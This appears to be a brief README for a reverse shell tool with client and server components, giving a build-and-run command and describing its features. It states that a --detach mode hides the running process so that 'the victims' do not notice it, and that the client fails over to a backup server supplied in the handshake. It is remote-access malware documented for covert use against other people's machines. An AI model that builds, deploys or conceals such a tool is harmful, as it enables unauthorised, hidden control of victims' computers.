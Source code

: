 # Reverse Shell
this projects contains a client side and a server side
## client side:
```
make && ./client -i ip -p port --detach 
```
if you use --detach it makes a child process and kills the parent and  detachs the child from terminal so the victims does not realize that the program is still running 
and reroute stdout to a file for debug purposes
client gets a back up port and ip and makes a child process so if we confronted any problems with connecting to the current server the it signals the already made child process to proceed and connect
to the back up server with the given back up port and ip given from the server in the handshake


